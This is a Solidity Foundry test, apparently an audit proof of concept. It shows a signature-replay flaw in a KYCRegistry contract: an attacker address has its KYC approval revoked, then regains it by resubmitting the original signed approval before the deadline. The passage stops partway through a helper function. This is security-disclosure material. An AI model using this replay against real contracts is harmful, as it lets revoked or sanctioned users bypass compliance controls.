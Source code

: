 ```solidity
    bytes32 DOMAIN_SEPARATOR;
    KYCRegistry registry;

    address admin;
    address kycAgent;
    uint256 kycAgentPrivateKey = 0xB0B;
    address attacker;

    function setUp() public {
        admin = address(0xad);
        attacker = address(0xbabe);
        kycAgent = vm.addr(kycAgentPrivateKey);
        registry = new KYCRegistry(admin, address(new SanctionsList()));
        APPROVAL_TYPEHASH = registry._APPROVAL_TYPEHASH();
        DOMAIN_SEPARATOR = registry.DOMAIN_SEPARATOR();
    }

    function test_bug() public {
        uint256 kycGroup = 1;
        bytes32 kycGroupRole = "0x01";
        vm.prank(admin);
        registry.assignRoletoKYCGroup(kycGroup, kycGroupRole);
        vm.prank(admin);
        registry.grantRole(kycGroupRole, kycAgent);
        vm.stopPrank();

        uint256 deadline = block.timestamp + 1 days;
        KYCApproval memory approval = KYCApproval({
            kycRequirementGroup: kycGroup,
            user: attacker,
            deadline: deadline
        });
        bytes32 digest = getTypedDataHash(approval);
        // KYC approval got signed with validity of 1 day
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(kycAgentPrivateKey, digest);

        assertEq(registry.kycState(kycGroup, attacker), false);
        assertEq(registry.getKYCStatus(kycGroup, attacker), false);

        vm.prank(attacker);
        registry.addKYCAddressViaSignature(kycGroup, attacker, deadline, v, r, s);

        assertEq(registry.kycState(kycGroup, attacker), true);
        assertEq(registry.getKYCStatus(kycGroup, attacker), true);

        address[] memory toBeRemovedAddrs = new address[](1);
        toBeRemovedAddrs[0] = attacker;
        // KYC approval was removed
        vm.prank(kycAgent);
        registry.removeKYCAddresses(kycGroup, toBeRemovedAddrs);
        vm.stopPrank();
        assertEq(registry.getKYCStatus(kycGroup, attacker), false);

        // KYC approval was granted again by replaying the original signature
        vm.prank(attacker);
        registry.addKYCAddressViaSignature(kycGroup, attacker, deadline, v, r, s);
        assertEq(registry.kycState(kycGroup, attacker), true);
        assertEq(registry.getKYCStatus(kycGroup, attacker), true);
    }

    function getStructHash(KYCApproval memory _approval) internal view returns (bytes32) {
        return keccak256(abi.encode(APPROVAL_TYPEHASH, _approval.kycRequirementGroup, _approval.user, _approval.deadline));
```